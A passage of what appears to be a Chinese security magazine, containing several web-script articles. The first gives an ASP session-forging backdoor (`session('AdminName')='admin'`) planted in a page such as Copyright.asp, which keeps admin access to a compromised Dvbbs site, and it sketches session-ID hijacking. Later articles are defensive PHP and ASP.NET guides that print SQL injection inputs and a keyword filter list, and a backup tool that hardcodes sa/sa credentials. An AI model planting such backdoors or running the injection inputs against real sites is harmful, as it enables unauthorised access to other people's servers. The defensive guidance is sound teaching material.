可见，动力是通过 Session 对象中的 AdminName 变量来认证的，并用它作为用户名来查询数据库，而 AdminName 的最初赋值是在 Admin_ChkLogin.asp 中，当用户成功登录以后会给你两个 Session 值。

```asp
session.Timeout=SessionTimeout
session("AdminName")=rs("username")
```

由于登录以后都是通过 Session 对象来检测的，所以我们在任何能访问的 ASP 网页中可构造以下语句（如 Copyright.asp）：

```asp
<%session("AdminName")="admin"%>
```

这样就能通过 Admin_ChkPurview.asp 的 Session 验证了。其中，admin 是指存在的管理员户名。这样构造后，即使我们在肉鸡上的任何木马都被查杀，只要管理员的用户名没有更改，我们可以先访问 Copyright.asp，然后直接输入 Admin_Index.asp 就能直接登录后台了。

那对于这种情况如何预防呢？其实动力也用了一定的办法，你会发现按这种方法输入其他的后台页面无法成功，这是因为在 Admin_ChkPurview.asp 还有如下验证：

```asp
ComeUrl=lcase(trim(request.ServerVariables("HTTP_REFERER")))
if ComeUrl="" then
    response.write "<br><p align=center><font color='red'>对不起，为了系统安全，不允许直接输入地址访问本系统的后台管理页面。</font></p>"
    response.end
else
    cUrl=trim("http://" & Request.ServerVariables("SERVER_NAME"))
    if mid(ComeUrl,len(cUrl)+1,1)=":" then
        cUrl=cUrl & ":" & Request.ServerVariables("SERVER_PORT")
    end if
    cUrl=lcase(cUrl & request.ServerVariables("SCRIPT_NAME"))
    if lcase(left(ComeUrl,instrrev(ComeUrl,"/")))<>lcase(left(cUrl,instrrev(cUrl,"/"))) then
        response.write "<br><p align=center><font color='red'>对不起，为了系统安全，不允许从外部链接地址访问本系统的后台管理页面。</font></p>"
        response.end
    end if
end if
```

可是在 Admin_Index.asp 页面中并没有调用 Admin_ChkPurview.asp，所以我们能通过验证！那为什么不调用呢？不要问我了，自己试一试就知道了。

#### 后记

我们知道通过关闭浏览器能结束会话，但是这样失去的只是服务器给我们分配的会话标识号。而在 Session 会话的生命周期结束之前，服务器是不会将会话标识号对应的 Session 值从内存中清除的。

一般 IIS 的 Session 生命周期默认是 20 分钟。利用这个原理，如果我们通过一定途径获得了其他浏览器登录服务器时建立的 Session 会话标识号，那么我们就能用这个会话标识号来得到被动浏览器端同样的权限。如果是一个管理员在登录后台，那么我们在另一台电脑上用这个会话标识号通过 Session 欺骗同样能登录后台，从而就实现了异地的攻击。具体方法欢迎到黑防论坛讨论。

文章若有疏漏敬请兄弟指出，哪位兄弟若有更好的利用方法欢迎一起分享。

**脚本小子：** 在黑客横行的时候，如何让自己的 PHP 代码更安全，如何保证程序和服务器的安全是很重要的问题。随便看了下关于 PHP 的安全资料，并不是很多，至少比 ASP 少多了，于是 heiyeluren 就写了这篇文章，防止某些可能出现的情况，希望对大家有所启发。

适合读者：脚本入侵爱好者，PHP 程序员  
前置知识：PHP 代码阅读能力

### PHP 代码安全篇

文/heiyeluren

ASP 注入让很多 ASP 的程序员都非常恼火，但同时 ASP 编码的安全性也在不断提高。在 PHP 编码的时候，同样也要考虑到很多安全问题，不然 PHP 同样能被攻击。下面我们就一起来看看有哪些点是需要注意的。

#### 初始化你的变量

我们看下面的代码：

```php
if ($admin)
{
    echo '登录成功！';
    include(admin.php);
}
else
{
    echo '你不是管理员，无法进行管理！';
}
```

我们看上面的代码好像是能正常运行，没有问题。那么假如我提交一个非法参数过去，效果会如何呢？比如我们的这个页是 `http://www.target.com/login.php`，那么我们提交 `http://www.target.com/login.php?admin=1`，呵呵，你想一想，我们是不是直接就是管理员，可以直接进行管理了？

当然，可能你会觉得不会犯这么简单的错误，可最近爆出来的 phpwind 1.3.6 论坛漏洞，导致能够直接拿到管理员权限，就是因为 `$$skin` 变量没有初始化，导致了后面一系列问题。

那么我们如何避免上面的问题呢？首先，从 php.ini 入手，把 php.ini 里面的 `register_globals = off`，就是不把所有注册变量设为全局，那么就能避免了。但是，我们不是服务器管理员，只能从代码上改进了。那么我们如何改进上面的代码呢？我们改写如下：

```php
$admin = 0;      // 初始化变量
if ($_POST['admin_user'] && $_POST['admin_pass'])
{
    // 判断提交的管理员用户名和密码是否正确的相应处理代码
    // ...
    $admin = 1;
}
else
{
    ...
}
```

```php
$admin = 0;

if ($admin)
{
    echo '登录成功！';
    include(admin.php);
}
else
{
    echo '你不是管理员，无法进行管理！';
}
```

那么这时候你再提交 `http://www.target.com/login.php?admin=1` 就不好使了，因为我们在一开始就把变量初始化为 `$admin = 0` 了，那么你就无法通过这个漏洞获取管理员权限。

#### 防止 SQL Injection

SQL 注射应该是目前危害最大的攻击方法了，包括 ASP 和 PHP，都是国内这两年流行的技术。基本原理就是通过对提交变量不过滤形成注入点，然后使恶意用户能够提交一些 SQL 查询语句，导致重要数据被窃取、数据丢失损坏，或者直接被入侵者拿到后台管理权限。

我们既然了解了基本的注射入侵方式，那么我们如何去防范呢？这个就需要从代码入手了。我们知道 Web 上提交数据有两种方式，一种是 GET，一种是 POST。那么很多常见的 SQL 注射就是从 GET 方式入手的，而且注射语句里一定包含一些 SQL 关键字：`select`、`update`、`delete`、`insert`。如果我们在提交的数据中进行过滤，是不是能够避免这些问题呢？于是我们构建如下函数：

```php
/*
函数名称：inject_check()
函数作用：检测提交的值是不是含有SQL注射的字符，防止注射，保护服务器安全
参数：$sql_str 提交的变量
返回值：返回检测结果，true or false
函数作者：heiyeluren
*/
function inject_check($sql_str)
{
    return eregi('select|insert|update|delete|\ |/\*|\*/|\.\./|\./|union|into|load_file|outfile', $sql_str); // 进行过滤
}
```

函数里把 `select, insert, update, delete, union, into, load_file, outfile, /*, */, ../, ./` 等危险参数字符串全部过滤掉，那么就能够控制提交参数了，程序可以这么构建：

```php
<?php
if (inject_check($_GET['id']))
{
    exit('你提交的数据非法，请检查后重新提交！');
}
else
{
    $id = $_GET['id'];
    echo '提交的数据合法，请继续！';
}
?>
```

假设我们提交 URL 为 `http://www.target.com/a.php?id=1`，那么就会提示“提交的数据合法，请继续！”。如果我们提交 `http://www.target.com/a.php?id=1' select * from tb_name`，就会出现提示“你提交的数据非法，请检查后重新提交！”，那么就达到了我们的要求。

但是，问题还没有解决。假如我们提交的是 `http://www.target.com/a.php?id=1asdfasdfasdf` 呢？这个 URL 是符合上面的规则的，但是实际上它是不正常的。于是为了避免可能出现的其他情况，我们可以再构建一个函数来进行检查：

```php
/*
函数名称: verify_id()
函数作用: 校验提交的ID类值是否合法
参数: $id 提交的ID值
返回值: 返回处理后的ID
函数作者: heiyeluren
*/
function verify_id($id=null)
{
    if (!$id) { exit('没有提交参数'); } // 是否为空判断
    elseif (inject_check($id)) { exit('提交的参数非法！'); } // 注射判断
    elseif (!is_numeric($id)) { exit('提交的参数非法！'); } // 数字判断
    $id = intval($id); // 整型化
    return $id;
}
```

呵呵，那么我们就能够进行检验了。于是我们上面的程序代码就变成了下面的：

```php
<?php
if (inject_check($_GET['id']))
{
    exit('你提交的数据非法，请检查后重新提交！');
}
else
{
    $id = verify_id($_GET['id']); // 这里引用了我们的过滤函数，对 $id 进行过滤
    echo '提交的数据合法，请继续！';
}
?>
```

好，问题到这里似乎都解决了，但是我们有没有考虑过 POST 提交的大批量数据呢？比如一些字符可能会对数据库造成危害，比如 `--`、`%`，这些字符都有特殊意义，那么我们如何进行控制呢？还有一点，就是当我们的 php.ini 里面的 `magic_quotes_gpc = off` 的时候，那么提交的不符合数据库规则的数据都不会自动在前面加 `\`，所以我们要控制这些问题，于是构建如下函数：

```php
/*
函数名称: str_check()
函数作用: 对提交的字符串进行过滤
参数: $str 要处理的字符串
返回值: 返回过滤后的字符串
函数作者: heiyeluren
*/
function str_check($str)
{
    if (!get_magic_quotes_gpc()) // 判断 magic_quotes_gpc 是否打开
    {
        $str = addslashes($str); // 进行过滤
    }
    $str = str_replace("_", "\_", $str); // 把 '_' 过滤掉
    $str = str_replace("%", "\%", $str); // 把 '%' 过滤掉
    return $str;
}
```

OK，我们又一次避免了服务器被攻陷的危险。最后，再考虑提交大量数据的情况，比如发帖，或者写文章、新闻，我们需要一些函数来帮我们过滤和进行转换。在上面函数的基础上，我们构建如下函数：

```php
/*
函数名称: post_check()
函数作用: 对提交的编辑内容进行处理
参数: $post 要提交的内容
返回值: $post 返回过滤后的内容
函数作者: heiyeluren
*/
function post_check($post)
{
    if (!get_magic_quotes_gpc())
    {
        $post = addslashes($post); // magic_quotes_gpc 未打开时过滤
    }
    $post = str_replace("_", "\_", $post); // 把 '_' 过滤掉
    $post = str_replace("%", "\%", $post); // 把 '%' 过滤掉
    $post = nl2br($post); // 回车转换
    $post = htmlspecialchars($post); // HTML 标记转换
    return $post;
}
```

在脚本编程的时候，一定要养成良好的编程习惯，例如本文所说的对变量进行初始化，同时注意变量的过滤。变量对整个系统的安全性起了很重要的作用。希望这些点滴能让你养成更好的习惯。

**脚本小子**：作为网络管理人员，数据库的备份和恢复是一项很重要的工作。数据备份是指创建数据库的一个副本，这样一旦系统崩溃或出现其他意想不到的问题而导致数据丢失时，就可以通过数据恢复功能将数据恢复到备份时的状态。而数据恢复是指通过完整数据库备份将数据恢复到上一次备份状态。在 SQL Server 数据库中，提供了数据工具可实现数据库的备份和恢复，但它只能在本机操作，无法实现远程备份，下面我们介绍如何通过 ASP 来实现 SQL 数据库的远程备份和恢复。

- 适合读者：脚本爱好者、数据库管理员、脚本程序员
- 前置知识：ASP 语言基础、SQL 基本语法

### 通过 ASP 远程备份/恢复数据库

文 / 彩云生

数据库的备份其实是通过 ASP 程序远程读取数据库，然后将其存于客户端。在 SQL 数据库服务中的“SQLDMO”对象的“SQLServer”方法可以连接 SQL 数据库，“Backup”方法可以实现文件备份。因此，只要合理利用此对象，就能实现数据库的备份和恢复。

首先通过一个表单，提供一个选项供用户选择是备份还是恢复，通过文本域确定用户备份的数据库名和存放路径，当提交后，通过 Web 地址栏进行参数传递，然后在 ASP 文件中通过 Request 对象接收参数实现不同的操作。

```asp
if act = "backup" then
  Set srv=Server.CreateObject("SQLDMO.SQLServer")
  srv.LoginTimeout = sqlLoginTimeout
  srv.Connect sqlserver,sqlname,sqlpassword
  Set bak = Server.CreateObject("SQLDMO.Backup")
  bak.Database=databasename
  bak.Devices=Files
  bak.Files=bak_file
  bak.SQLBackup srv
  if err.number>0 then
    response.write err.number&"<font color=red><br>"
    response.write err.description&"</font>"
  end if
  Response.write "<font color=green>备份成功!</font>"
elseif act = "restore" then
```

#### ★ 选择表单

```html
<HTML><HEAD>
<TITLE>SQL Server 数据库的备份与恢复</TITLE>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
</HEAD>
<BODY>
<form method="post" name="myform">
选择操作：<INPUT TYPE="radio" NAME="act" id="act_backup" value="backup"><label for="act_backup">备份</label>
<INPUT TYPE="radio" NAME="act" id="act_restore" value="restore"><label for="act_restore">恢复</label>
<br>数据库名：<INPUT TYPE="text" NAME="databasename" value="<%=request('databasename')%>">
<br>文件路径：<INPUT TYPE="text" NAME="bak_file" value="c:\$1.bak">(备份或恢复的文件路径)<br>
<input type="submit" value="确定">
</form>
```

#### ★ 恢复数据库

```asp
Set srv=Server.CreateObject("SQLDMO.SQLServer")
srv.LoginTimeout = sqlLoginTimeout
srv.Connect sqlserver,sqlname,sqlpassword
Set rest=Server.CreateObject("SQLDMO.Restore")
rest.Action=0  ' full db restore
rest.Database=databasename
rest.Devices=Files
rest.Files=bak_file
rest.ReplaceDatabase=True  ' Force restore over existing database
if err.number>0 then
  response.write err.number&"<font color=red><br>"
  response.write err.description&"</font>"
end if
rest.SQLRestore srv
Response.write "<font color=green>恢复成功!</font>"
else
Response.write "<font color=red>没有选择操作</font>"
end if
end if%>
</BODY></HTML>
```

#### ★ 数据库的备份

```asp
<%
dim sqlserver,sqlname,sqlpassword,sqlLoginTimeout,databasename,bak_file,act
sqlserver = "localhost"  ' sql 服务器
sqlname = "sa"           ' 用户名
sqlpassword = "sa"       ' 密码
sqlLoginTimeout = 15     ' 登录超时
databasename = trim(request("databasename"))
bak_file = trim(request("bak_file"))
bak_file = replace(bak_file,"$1",databasename)
act = lcase(request("act"))
if databasename = "" then
  response.write "input database name"
else
```

数据库的备份和恢复是一项基础性的工作，如何在线远程实现数据库的备份和恢复，本文提出了解决之道。在网络如此发达的今天，此法具有十分重要的意义，希望能给大家提供帮助。

- 适合读者：脚本程序员、脚本入侵爱好者
- 前置知识：ASP.NET 相关

### 痛并安全的 ASP.NET 代码


文 / 瑞星国际 朱成

ASP.NET 是一个已编译的、基于 .NET 的环境，可以用任何与 .NET 兼容的语言（包括 Visual Basic .NET、C# 和 JScript.NET）创作应用程序。从此我们可以利用微软公司的旗舰级产品 VS.NET 集成开发环境来编写 Web 应用了。它带给我们最主要的好处就是可以调试，调试 ASP.NET 的时候再也不用像以前写 ASP、PHP 这样的脚本一样去输出我们需要观察的变量值，现在要做的只是设置断点跟踪就行了，就像调试 Windows 应用程序一样方便。

言归正传，ASP.NET 不仅仅是在 Web 应用开发上给我们带来了充分的便利，最重要的是 ASP.NET 在安全性方面有了显著的提升。对于以前经常开发 Web 应用的人来说，安全性一直是一件令人头疼的问题，稍不留意就会给黑客大开方便之门。下面针对 ASP.NET 在安全性方面的改进，粗略地说出几点，希望能给用 ASP.NET 编写 Web 应用代码的 Coder 们一些帮助。

#### 使用 CodeBehind 技术

在 ASP.NET 没有出现之前，Web 应用开发一直是脚本代码与 HTML 代码都存放在一个文件中，这样就带来了一个明显的安全隐患，那就是容易暴露脚本源代码。只要是某些脚本文件代码中存在有遍历文件内容的漏洞，则攻击者可以很容易地读取每个脚本文件的源代码，导致站点的核心代码泄露。如果脚本作者把数据库连接字符串存储在类似于 conn.asp 这样的文件中，那么很不幸，你的数据库用户名和密码也就暴露给了攻击者。某个国外大型的代码网站就存在这样的问题，而且它的站点也是使用 ASP.NET 开发的，但是没有采用 CodeBehind 技术。所以能看它的源代码，并且知道它的数据库用户和密码，无奈它的数据库服务器放在内网，所以作罢。不过这足以说明此类问题是 Web 应用普遍存在并且很严重的问题。

ASP.NET 对于脚本代码的构建方面有两种方法：一种是采取和老版 ASP 兼容的方式，将脚本代码和 HTML 代码都放在一个 ASPX 文件中，运行时自动编译运行。还有一种方法就是加强安全性的 CodeBehind 技术。我们可以只在每一个 ASPX 文件中书写 HTML 代码来完成网页的外观构造，而具体实现功能的代码全部放在 .cs 文件中。这样做的最大好处就是当我们编译整个工程的时候，所有与 ASPX 文件相关的 CS 文件都会被统一编译成为一个 DLL 文件，这样我们在部署 Web 应用的时候就不用上传那些实现功能的 CS 文件，只需要把 DLL 文件存放到 Web 应用的 Bin 目录下即可。通过采用 CodeBehind 方式编写的 ASP.NET 程序，不会再存在像上面所说的那样暴露源代码的现象。

#### Form（窗体）身份验证技术

Form（窗体）身份验证技术是 ASP.NET 的一大主要安全功能，采用 Form 身份验证我们可以得到的好处是当用户通过窗体身份验证登录时，系统会创建一个加密的 Cookie 用于在整个站点中跟踪用户。由于是加密 Cookie，就避免了攻击者伪造 Cookie 内容进行 Cookie 欺骗攻击。虽然以前利用 Session 也可以避免这个问题，但是毕竟采取 Cookie 的手段要节省更多服务器资源。

#### 自动输入安全检查

ASP.NET 的默认安全性非常强，当用户输入 <> 等有可能导致跨站脚本攻击的字符时，Web 应用会自动抛出一个异常，提示用户输入的字符可能存在潜在的安全问题。这样一来就极大增强了代码的安全性。但是有时候是需要用户输入 <> 等 HTML 字符的，代码编写者通常在 Web.config 文件中加入一行 `<pages validateRequest="false" />` 到 `<system.web>` 段中来禁止自动输入安全检查。对于以上操作所带来的安全隐患不言而喻，我们需要自己通过书写代码对用户输入的 HTML 字符进行转换。.NET 类库已经提供了相应的 HTML 编码函数，只需要简单调用即可：

```csharp
string rawInput;              /* 存储原始的输入内容 */
string encodeInput;           /* 存储被 HTML 编码后的内容 */
encodeInput = HttpUtility.HtmlEncode(rawInput);
```

#### 使用参数化查询

SQL Injection 的问题自不必说，因为它已经臭名昭著了。至今网络中还有无数的 Web 站点存在这类问题，而黑客对此类漏洞的利用方法也比前几年更可怕，无数巧妙的利用方法被公开。而在 ASP.NET 中使用参数化查询可以有效地避免 SQL Injection 的问题，下面通过一个例子来说明如何使用参数化查询来避免注入攻击。假设数据库中有一张表为 Product：

| 字段 | 类型 | 说明 |
|---|---|---|
| Pid | int | 主键标识，自动增长 |
| PName | varchar(50) | 产品名称 |

如果我们代码写成如下形式来通过 pid 查询数据库的话，就有被攻击者注入的可能：

```csharp
string pid = Request.QueryString["pid"];
SqlConnection oConn = new SqlConnection();
oConn.ConnectionString = "Data Source=localhost;...";
string strSql = "select * from product where pid='" + pid;
SqlCommand oCmd = new SqlCommand(strSql,oConn);
SqlDataReader oDr = oCmd.ExecuteReader();
```

当我们通过 URL 提交 `pid=1;use master;--` 的时候，会看见 Web 应用抛出一个异常……这就说明 SQL 注入成功了。下面是使用参数化查询的代码。

```csharp
string pid = Request.QueryString["pid"];
SqlConnection oConn = new SqlConnection();
...
SqlParameter oParamPid = new SqlParameter("@pid", SqlDbType.Int);
oParamPid.Value = pid;
string strSql = "select * from product where pid=@pid";
SqlCommand oCmd = new SqlCommand(strSql,oConn);
oCmd.Parameters.Add(oParamPid);
SqlDataReader oDr = oCmd.ExecuteReader();
```

当使用了参数化查询以后，再次提交 `pid=1;use master;--` 时，提示变为“输入字符串的格式不正确”，说明 SQL 注入失败。参数化查询是很好的防注入方法……

文中如有疏漏，欢迎批评指正，我的 Email：sh0cker@163.com，QQ：1174100。

**脚本小子：**逛网站的时候，常常发现网站的论坛、文章系统等都是 PHP 编写的……所以我们应该想办法打造一个安全的 PHP 网站。

- 适合读者：脚本入侵爱好者、脚本程序员
- 前置知识：PHP 脚本阅读能力

### PHP 漏洞中级战车


文 / BigFly

随着 PHP 的日益强大，很多网站、论坛也开始使用 PHP 编写……在这里给大家介绍几种常见的 PHP 脚本漏洞及其解决的方法。

#### 滥用 include

##### 1. 漏洞原因

Include 是编写 PHP 网站中最常用的函数，并且支持相对路径。很多脚本直接把某输入变量作为 Include 参数，造成任意引用脚本、绝对路径泄露等漏洞。

```php
...
$includepage=$_GET["includepage"];
include($includepage);
...
```

很明显，我们只需要提交不同的 `includepage` 变量就可以获得想要的页面……该问题的解决办法在下面说明。

##### 2. 漏洞解决

这个漏洞的解决很简单：先判断页面是否存在，或更严格地使用数组对白名单文件进行限定。

```php
$pagelist=array("test1.php","test2.php","test3.php");
if(isset($_GET['includepage'])){
  $includepage=$_GET['includepage'];
  foreach($pagelist as $prepage){
    if($includepage==$prepage){
      include($prepage);
      $checkfind=true;
      break;
    }
  }
  if($checkfind==true){unset($checkfind);}else{die("无效引用页！");}
}
```

这样就可以很好地解决问题了。

> 有此问题的函数还有：`require()`、`require_once()`、`include_once()`、`readfile()` 等，在编写的时候也要注意。

#### 未对输入变量进行过滤

- 1. 漏洞原因

这个漏洞以前在 ASP 中出现过，当时造成的注入漏洞不计其数。但由于 PHP 在当时的影响力较小，所以没有太多的人能够注意这点。对于 PHP 来说，这个漏洞的影响性比 ASP 更大，因为有比较多的 PHP 脚本使用到文本型数据库。当然也存在 SQL 语句的注入问题。举个比较经典的例子，首先是数据库的：

```php
$id=$_GET["id"];

$query="SELECT * FROM my_table where id='".$id."'";  // 很经典的 SQL 注入漏洞
$result=mysql_query($query);
```

这里很明显我们可以用注入来获得数据库的其他内容了。这里就不再详细叙述，和 ASP 注入一样的，大家可以看看以前的文章。然后我们看文本数据库的问题：

```php
$text1=$_POST["text1"];
$text2=$_POST["text2"];
$text3=$_POST["text3"];

$fd=fopen("test.php","a");
fwrite($fd,"\r\n$text1|$text2|$text3");
fclose($fd);
```

文本的漏洞可以说是更加严重。倘若我们的提交变量中插入一段很小的 PHP 代码，就可以令这个文本数据库 `test.php` 变成 PHP 后门，甚至插入上传代码，让我们可以上传一个完整的 PHP 后门。接着提升权限，服务器就是你的了。

- 2. 漏洞解决

这个漏洞的解决方法其实很简单，就是严格对全部提交的变量进行过滤，对一些敏感的字符进行替换。我们可以借助 PHP 提供的 `htmlspecialchars()` 函数来替换 HTML 的内容。这里给出一段例子：

```php
// 构造过滤函数
function flt_tags($text)
{
    $badwords=array("操你妈","fuck"); // 词汇过滤列表
    $text=rtrim($text);
    foreach($badwords as $badword)
    {
        if(stristr($text,$badword)==true){die("错误 你提交的内容含有敏感字眼，请不要提交敏感内容。");}
    }
    $text=htmlspecialchars($text); // HTML 替换
    // 逐两行把回车替换为 <br>
    $text=str_replace("\r","<br>",$text);
    $text=str_replace("\n","",$text);
    $text=str_replace("|"," ",$text); // 文本数据库分隔符替换为空格
    $text=preg_replace("/\s{2,}/","&nbsp; ",$text);
    $text=preg_replace("/\t/","&nbsp;&nbsp;&nbsp; ",$text);
    if(get_magic_quotes_gpc()){$text=stripslashes($text);} // 如果 magic_quotes 开启
    return $text;
}
```

```php
$text1=$_POST["text1"];
$text2=$_POST["text2"];
$text3=$_POST["text3"];

// 过滤全部输入
$text1=flt_tags($text1);
$text2=flt_tags($text2);
$text3=flt_tags($text3);

$fd=fopen("test.php","a");
fwrite($fd,"\r\n$text1|$text2|$text3");
fclose($fd);
```

经过一番替换和过滤后，你就可以安全地把数据写入文本或数据库了。

#### 管理员判断不完全

- 1. 漏洞原因

我们用 PHP 写脚本，通常要涉及管理员的权限问题。而一些脚本仅仅对管理员权限作出“是”判断，而往往忽略了“否”判断。在 PHP 配置文件中 `register_globals` 打开的情况下（4.2.0 以后版本默认关闭），若为了方便而打开它，会出现提交变量冒充管理员的情况。

```php
$cookiesign="admincookiesign";
// 判断是否 Admin 的 cookie 变量
$adminsign=$_COOKIE["sign"];

if($adminsign==$cookiesign)
{
    $admin=true;
}

if($admin){echo "现在是管理员状态。";}
```

看上去好像很安全。可是当 `register_globals` 打开时，提交 `test.php?admin=true`，即使没有正确 Cookie，也可能让 `admin` 自动注册为 `true`。脚本若缺少“否”判断，就可能被绕过并获得管理员权限。

- 2. 漏洞解决

解决这个问题，只需要在脚本中加入对管理员权限的“否”判断即可。下面代码演示了判断流程的起始部分：

```php
$cookiesign="admincookiesign";
// 判断是否 Admin 的 cookie 变量
$adminsign=$_COOKIE["sign"];
```

```php
// 获取用户的cookie变量

if ($adminsign == $cookiesign)
{
    $admin = true;
}
else
{
    $admin = false;
}
if ($admin) { echo "现在是管理员状态。"; }
```

这样，就算攻击者在没有正确 Cookie 的情况下提交了 `admin=true` 的变量，脚本在以后的判断中也会把 `$admin` 设置为 `false`，这样就解决了部分的问题。但由于 `$admin` 是变量，倘若在以后的其他脚本引用中出现了漏洞使得 `$admin` 被重新赋值，就会引发新的危机。因此，我们应该使用常量来存放管理员权限的判定。使用 `define()` 语句定义一个 `admin` 常量来记录管理员权限，在此以后若重新赋值就会出错，从此达到保护的目的。看以下代码：

```php
$cookiesign = 'admincookiesign';
// 判断是否Admin的cookie变量
$adminsign = $_COOKIE["sign"];
// 获取用户的cookie变量
if ($adminsign == $cookiesign)
{
    define("admin", true);
}
else
{
    define("admin", false);
}
if (admin) { echo "现在是管理员状态。"; }
```

值得注意的是，我们使用了 `define` 语句，所以在调用 `admin` 常量时前面不要习惯性地加变量符号 `$`，而应该使用 `admin` 和 `!admin`。

#### 文本数据库暴露

##### 1. 漏洞原因

前面已经说过，由于文本数据库具有很大的灵活性，不需要任何外部支持。加上 PHP 对文件的处理能力十分强，因此文本数据库在 PHP 脚本中的应用甚广。甚至有几个很好的论坛程序就是使用文本数据库的。但有得必有失，文本数据库的安全性比其他数据库更低。

##### 2. 漏洞解决

文本数据库作为一个普通的文件，它可以被下载，就像 MDB 一样。所以我们要用保护 MDB 的办法来保护文本数据库。把文本数据库的后缀名改为 `.php`，并在数据库的第一行加入 `<?exit;?>`。这样文本数据库就会作为一个 PHP 文件，并且在第一行退出执行，也就是返回一个空页面，从而达到保护文本数据库的目的。

#### 错误路径泄露

##### 1. 漏洞原因

PHP 遇到错误时，就会给出出错脚本的位置、行数和原因，例如：

```text
Notice: Use of undefined constant test - assumed 'test'
in D:\interpub\bigfly\test.php on line 3
```

有很多人说这并没有什么大不了，但泄露了实际路径的后果是不堪设想的。对于某些入侵者，这个信息可是非常重要，而事实上现在有很多服务器都存在这个问题。

有些网管干脆把 PHP 配置文件中的 `display_errors` 设置为 `Off` 来解决，但本人认为这个方法过于消极。有些时候，我们的确需要 PHP 返回错误的信息以便调试。而且在出错时也可能需要给用户一个交待，甚至导航到另一页面。

##### 2. 漏洞解决

PHP 从 4.1.0 开始提供了自定义错误处理句柄的功能函数 `set_error_handler()`，但很少有脚本编写者知道。在众多 PHP 论坛中，我只看见很少一部分对此情况进行了处理，`set_error_handler` 的使用方法如下：

```php
string set_error_handler ( callback error_handler [, int error_types] )
```

现在我们就用自定义的错误处理把实际路径过滤掉。

```php
// admin为管理员的身份判定，true为管理员。
// 自定义的错误处理函数一定要有这4个输入变量：
// $errno, $errstr, $errfile, $errline，否则无效。
function my_error_handler($errno, $errstr, $errfile, $errline)
{
    // 如果不是管理员就过滤实际路径
    if (!admin)
    {
        $errfile = str_replace(getcwd(), "", $errfile);
        $errstr  = str_replace(getcwd(), "", $errstr);
    }

    switch ($errno)
    {
        case E_ERROR:
            echo "ERROR: [ID $errno] $errstr (Line: $errline of $errfile)<br>\n";
            echo "<b>程序已经停止运行，请联系管理员。</b>";
            exit;
            break;

        case E_WARNING:
            echo "WARNING: [ID $errno] $errstr (Line: $errline of $errfile)<br>\n";
            break;

        default:
            // 不显示Notice级的错误
            break;
    }
}

// 把错误处理设置为my_error_handler函数
set_error_handler("my_error_handler");
```

这样，就可以很好地解决安全和调试方便的矛盾了。而且你还可以花点心思，使错误提示更加美观以配合网站的风格。不过要注意以下两点。

## 脚本攻击防范 / SCRIPT ATTACK DEFENCE

`E_COMPILE_WARNING` 是不会被这个句柄处理的，也就是会用最原始的方式显示出来。不过出现这些错误都是编译或 PHP 内核出错，在通常情况下不会发生。使用 `set_error_handler()` 后，`error_reporting()` 将会失效，也就是所有的错误（除上述错误）都会交给自定义的函数处理。其他有关 `set_error_handler()` 的信息，大家可以参考 PHP 官方手册。

#### POST 漏洞

##### 1. 漏洞原因

前面已经说过，依靠 `register_globals` 来注册变量是个不好的习惯。在一些留言本和论坛程序中，更要严格检查获得页面的方式和提交的时间间隔，以防止灌水式发帖和外部提交。

```php
...
$text1 = flt_tags($text1);
$text2 = flt_tags($text2);
$text3 = flt_tags($text3);

$fd = fopen("data.txt", "a");
fwrite($fd, "\r\n$text1|$text2|$text3");
fclose($fd);
...
```

很明显，如果我们提交到此页面，数据就会被正常写入文件中。此程序并没有检测变量来源和浏览器获得页面的方式。如果重复多次提交，就会造成灌水。现在也有一些软件利用这个漏洞在论坛或留言本上发广告。

##### 2. 漏洞解决

在进行数据处理和保存前，先判断浏览器的获得页面方式。使用 `$_SERVER['REQUEST_METHOD']` 判断是否为 `POST`；并用 Session 记录用户是否通过正常途径提交页面，同时检查提交间隔与重复内容。

在填写浏览内容的页面中，我们在最前端加上：

```php
$_SESSION['allowgbookpost'] = time(); // 登记填写时的时间
```

在接受留言数据并保存的页面中，我们在进行数据处理前也用 Session 进行以下处理：

```php
if (strtoupper($_SERVER['REQUEST_METHOD']) != "POST") { die("错误：请勿在外部提交。"); }
if ((!isset($_SESSION['allowgbookpost'])) || (time() - $_SESSION['allowgbookpost'] < 10)) { die("错误：请勿在外部提交。"); }
if ((isset($_SESSION['gbookposttime'])) and (time() - $_SESSION['gbookposttime'] < 120)) { die("错误：两次提交留言的间隔不得少于2分钟。"); }
unset($_SESSION['allowgbookpost']);
$_SESSION['gbookposttime'] = time();
...
数据处理及保存
...
```

经过这样重重审查，你的程序就安全很多了。以上是关于 PHP 脚本网站的一些经验技巧总结。

脚本小子：在数据库操作的时候常常需要把数据库中的内容导入到另一个库中，这就需要用到批量导入和执行程序的功能。

### MySQL 批量导入+执行

文/图 SworDs[E.S.T]

最近把备份数据导入数据库时发现特别麻烦，如果使用 phpMyAdmin 管理 MySQL 插入数据，觉得有点杀鸡用牛刀。于是对原有工具增加了多条导入功能，满足了导入大量数据的要求，可进行单行执行和批量插入。

#### 关键代码分析

我写了一个小程序，完整源代码放在光盘的 `mysqladmin.php` 中。各关键代码处均有标识。我们先来看这条语句：

```php
// allow script to work with register_globals off
$onoff = @ini_get('register_globals') || get_cfg_var('register_globals');
```

`get_cfg_var` 取得 PHP 的配置选项值。若正确取得当前 PHP 配置选项，则返回变量值，失败返回 `false`。文中说明了 `register_globals` 的含义及其关闭时对 URL 传参的影响。

PHP 4.3.1 默认 `register_globals=off`，并介绍了 `$_GET`、`$_POST`、`$_COOKIE`、`$_SESSION` 等变量机制及使用背景。

```php
register_globals = off
<form action="<? echo $PHP_SELF; ?>" method="POST" name="frm">
```

说明可通过 `$_SERVER`、`$_POST`、`$_GET` 获取提交数据，并引出第 2 段关键代码说明。

```php
if ($onoff != 1) {
    @extract($_POST, EXTR_SKIP);
    @extract($_GET, EXTR_SKIP);
}
```

`extract()` 用于把数组变量导入符号表，`EXTR_SKIP` 用于跳过同名变量；该段解释在 `register_globals=off` 时的数据处理。

```php
if (get_magic_quotes_gpc()) {
    $_POST = stripslashes_array($_POST);
}
```

解释 `get_magic_quotes_gpc()` 与 GPC 转义行为，说明在开启时需调用 `stripslashes_array()` 去除转义字符。

```php
if (strstr($query, 'CREATE TABLE')) {
    ereg('CREATE TABLE ([^ ]*)', $query, $regs);
    mysql_query("DROP TABLE IF EXISTS $regs[1]");
    echo "<p>正在建立表：" . $regs[1] . "......";

    $result = @mysql_query($query);
    if ($result) {
        echo "成功!<p>\n";
    } else {
        echo "失败!<p>\n";
    }
} else {
    $result = @mysql_query($query);
    echo ($result) ? "SQL语句成功执行\n" : "出错：" . mysql_error();
}
```

右栏说明该程序核心逻辑：用 `strstr()` 判断语句类型，`ereg()` 解析表名，`mysql_query()` 执行建表与 SQL，并用 `@` 抑制错误输出。

#### 测试程序

